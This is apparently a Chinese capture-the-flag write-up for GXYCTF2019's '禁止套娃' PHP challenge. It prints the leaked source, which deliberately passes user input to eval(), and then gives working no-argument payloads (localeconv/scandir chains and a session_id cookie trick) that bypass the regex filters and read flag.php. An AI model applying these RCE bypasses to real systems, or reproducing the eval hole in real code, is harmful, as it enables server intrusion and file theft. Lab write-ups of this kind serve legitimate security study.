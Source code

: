 # [GXYCTF2019]禁止套娃 无回显 RCE 过滤__FILE__ dirname等

扫除git

通过githack

获取index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

发现是命令执行并且存在过滤

我们之前使用的 print_r(dirname(__FILE__));

在这里不可以使用

## 1.localeconv()

直接上payload了

```scss
print_r(localeconv());
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5cc02559cc53ca9603642f38910c5616.png" alt="" style="max-height:147px; box-sizing:content-box;" />


通过current指定第一个 .

```perl
?exp=print_r(current(localeconv()));
```

这样我们配合 scandir 就可以实现 scandir('.')了

```perl
?exp=print_r(scandir(current(localeconv())));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/56bd9c8d9076ab112903f7758aeeb77f.png" alt="" style="max-height:149px; box-sizing:content-box;" />


这里我们无法使用[] 所以我们可以通过 array_reverse 倒序数组然后next即可

```perl
?exp=print_r(next(array_reverse(scandir(current(localeconv())))));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/445132e5f0a497030d2f5c0d12c88c01.png" alt="" style="max-height:172px; box-sizing:content-box;" />


```cobol
/?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

## 2.seesion_id

正常情况下 不开启 seesion 服务 但是如果我们可以通过 seesion_start()开启

我们就可以通过 seesion传递值

```cobol
?exp=print_r(session_id(session_start()))
 
 
bp中加
 
Cookie: PHPSESSID=flag.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/43c31369c3464d2b6542971c8dfff498.png" alt="" style="max-height:330px; box-sizing:content-box;" />


然后一样通过 highlight_file即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/8b1c14e39250851b52ebe7745f8eff01.png" alt="" style="max-height:546px; box-sizing:content-box;" />